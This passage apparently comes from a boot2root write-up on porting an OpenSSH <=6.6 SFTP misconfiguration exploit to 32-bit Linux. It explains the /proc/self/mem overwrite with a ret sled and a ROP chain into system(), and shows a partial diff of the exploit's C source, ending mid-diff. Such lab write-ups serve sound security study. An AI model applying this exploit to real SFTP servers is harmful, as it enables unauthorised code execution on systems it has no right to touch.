 Since there's no 32-bit proof-of-concept available, we'll have to either modify the above exploit or create our own.

### /proc/self/mem Overwrite
In Linux machines, all information relating to processes is stored within the /proc/ folder.  Within this are a number of folders named after the associated process pid's and within these we'll find such as `cmdline`, which contains the command that originally started the process and `maps` which shows the virtual memory addresses of the stack, heap and assorted libraries.  Importantly in this case, it also contains the `mem` file which represents the virtual memory of the process itself.  

If we control `mem` we directly control the memory and therefore execution.  This exploit works by opening the file and writing at the stack head a string to execute.  At the stack tail it writes a rop chain to call system with the start of the stack as the input string.  Between the head and the tail it then writes in a sequence of `ret` instructions until the EIP register is overwritten.  At this point, execution will follow our `ret` chain until it hits our ROP chain at the stack tail.  You've probably used [CVE-2012-0056](https://git.zx2c4.com/CVE-2012-0056/about/), also known as mempodipper, at some point in any number of boot2roots.  This works on the same principle.

So, let's port our exploit!

### Modifying to 32-bit
The calling conventions between 32-bit and 64-bit are slightly different.  Function arguments are passed in via registers in 64-bit, whilst in 32-bit they are passed in via the stack.  

Here the function being called is `system(stack_start_address)`.  In this case we simply go from `pop rdi; ret-> stack_start_addr -> system@libc` to `system@libc -> pop rdi; ret -> stack_start_addr` to achieve similar execution.  Our `pop rdi; ret` will probably cause a segfault in 32-bit once we exit but it doesn't matter too much. 

We also need to adjust the types the exploit is using.  In this case we change all references to `long long` into `int`.  On 64-bit Windows `long` refers to a 32-bit length integer but in Linux it refers to a 64-bit integer, so we have to use `int`.  The references to `Lx` in all the `scanf` and `printf` functions also have to be adjusted to `x` as the variable's types that we're reading into and printing from have changed.

Here's the diff of the changes that need to be made to the C code:
```bash
root@kali:~/nightmare# diff sshsploit.c sshsploit-32.c 
2c2
< OpenSSH <=6.6 SFTP misconfiguration exploit for 64bit Linux
---
> OpenSSH <=6.6 SFTP misconfiguration exploit for 32bit Linux
126c126
<   long long start_addr, end_addr, offset;
---
>   int start_addr, end_addr, offset;
128c128
<   long long stack_start_addr = 0, stack_end_addr;
---
>   int stack_start_addr = 0, stack_end_addr;
133c133
<       if (sscanf(p, "%Lx-%Lx %*4c %Lx", &start_addr, &end_addr, &offset) != 3) perror("scanf failed"), exit(1);
---
>       if (sscanf(p, "%x-%x %*4c %x", &start_addr, &end_addr, &offset) != 3) perror("scanf failed"), exit(1);
140c140
<       if (sscanf(p, "%Lx-%Lx ", &stack_start_addr, &stack_end_addr) != 2) perror("scanf failed"), exit(1);
---
>       if (sscanf(p, "%x-%x ", &stack_start_addr, &stack_end_addr) != 2) perror("scanf failed"), exit(1);
146c146
<   printf("offset %Lx from libc is mapped to %Lx-%Lx\n", offset, start_addr, end_addr);
---
```